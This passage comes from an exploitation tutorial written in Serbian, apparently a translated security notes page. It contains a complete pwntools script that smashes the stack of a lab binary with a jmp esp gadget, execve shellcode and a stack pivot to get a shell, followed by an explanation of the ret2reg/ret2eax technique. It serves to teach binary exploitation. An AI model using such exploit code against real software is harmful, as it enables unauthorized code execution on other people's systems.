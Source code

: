 ```python
target = process('./b0verflow')
#gdb.attach(target, gdbscript = 'b *0x080485a0')

# The shellcode we will use
# I did not write this, it is from: http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Establish our rop gadgets

# 0x08048504 : jmp esp
jmpEsp = p32(0x08048504)

# 0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
pivot = p32(0x80484fd)

# Make the payload

payload = ""
payload += jmpEsp # Our jmp esp gadget
payload += shellcode # Our shellcode
payload += "1"*(0x20 - len(shellcode)) # Filler between end of shellcode and saved return address
payload += pivot # Our pivot gadget

# Send our payload
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```
## Ret2reg

Slično, ako znamo da funkcija vraća adresu na kojoj je smešten shellcode, možemo iskoristiti **`call eax`** ili **`jmp eax`** instrukcije (poznate kao **ret2eax** tehnika), nudeći još jedan način za izvršavanje našeg shellcode-a. Baš kao i eax, **bilo koji drugi registar** koji sadrži zanimljivu adresu može se koristiti (**ret2reg**).

### Primer

Možete pronaći neke primere ovde:&#x20;

- [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)
- [https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/ASLR%20Smack%20and%20Laugh%20reference%20-%20Tilo%20Mueller/ret2eax.c](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/ASLR%20Smack%20and%20Laugh%20reference%20-%20Tilo%20Mueller/ret2eax.c)
- **`strcpy`** će u **`eax`** sačuvati adresu bafera gde je shellcode bio smešten i **`eax`** se ne prepisuje, tako da je moguće koristiti `ret2eax`.

## ARM64
